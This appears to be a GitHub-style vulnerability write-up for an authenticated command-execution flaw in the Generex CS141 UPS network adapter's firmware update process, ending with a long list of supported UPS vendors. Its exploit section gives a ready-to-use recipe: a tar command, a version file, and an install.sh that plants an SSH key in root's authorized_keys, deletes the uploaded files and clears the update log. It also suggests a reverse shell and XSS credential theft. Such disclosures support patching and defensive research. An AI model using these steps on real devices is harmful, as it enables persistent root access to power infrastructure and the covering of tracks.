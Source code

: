 # Generex-CS141-Authenticated-Remote-Command-Execution

## Description:
The device [CS141](https://www.generex.de/products/ups) is an Ethernet Adapter for the control and the management of UPS Facilities. A list of supported UPS Vendors can be found at the bottom.

The Firmware update process allows to execute arbitrary commands. Most of the time, these type of devices are overlooked and never controlled.
Therefore, it is from value to execute commands directly on the underlying Linux.


## Exploit
The update script located in `/usr/bin/gxserve-update.sh` simply executes the script `ìnstall.sh` inside a gzip compressed tarball as root.
The responsible function is `run_update()` which extracts the script install.sh from a tarball (line 111) and executes it (line 132,133).

![alt text](gxserve-update.sh.png "update script")

Therefore, to execute commands simply create a tarball with a `version` and `install.sh` file which contains your reverse shell or other commands.

The following command creates the update tarball with the install.sh script which will be executed. Please note, the `./` is important and the version number must be greater than the current version.
```
tar cvzf update208.tar.gz ./install.sh version
```
The `version` file should look like
```
version=2.08
```
The `install.sh` may look like
```
#!/bin/sh
# bch8
# Add your rev shell or simply an ssh pub key here
echo -n 'ecdsa-sha2-nistp384 AAAAE2...' >> /root/.ssh/authorized_keys

# Do some cleanup
rm -f /tmp/version
rm -f /var/www/hiawatha/upload/update*.tar.gz
rm -f /tmp/install.sh
echo -n > /var/log/update.log
sync
```


Further more, the client-side application has been done with the EOL Anuglar project, which contains a well known [Prototype Pollution vulnerability](https://security.snyk.io/vuln/SNYK-JS-ANGULAR-534884).
So a possible way to get credentials would be to prepare some XSS. The Authentication is done by the Hiawatha webserver.

## Supported Vendors:
```
 AEG
 PILLER POWER SYSTEMS
 Online
 VERTIV
 Eurotech Sweden (Riello)
 Legrand
 Mansshardt
 Inform
 Generex
 Kess
 Rittal
 Newave CH
 Eaton/Powerware
 Multimatic
 MetaSystem Energy
 Benning
 DRS Pivotal Power
 Errepi
 Borri S.p.A
 General Electric
 DKC Europe
 Roton
 CTA
 Akkutronik
 Newave GER
 UPS Service
 Allnet
 Effekta
 Kaufel
 Jovy Atlas
 ABB
 Nitram
 Astrid
 Kamic
 Inform
 THYCON
 Roline
 Ablerex
 Woehrle
 Fuji Electric
 S2S
 Triathlon
 Elektro-Automatik
 centiel
 ELIT srl
 CPS
 ACCENT MONITORING
 Coromatic
 Predictive Technology Inc.
 British Power Conversion
 Siel
 Alpha
 DFM Select
 SAPOTEC
 Gustav Klein
 apra net
 Leistung
 ELINEX
 AKI Power Systems
 COMPU Power South Africa
 Exponential Power
 Astrid neutral
 Infosec
 E-TEC
 TwinSource
 BACS / LED / SITEMAN
 SNG
 SICOTEC AG
 Eltek
 CET
 Salicru
 NetMinder
 Kohler Power
 International Business Resources
 Enedo
 AdPoS
 EnerSys
 Kess
 ALTERVAC
 GRUENCO
 Staco Energy
 Statron
 BJ Balfour
 POWER-ALL
 Genesys M2M
 AG IT PROJECT
```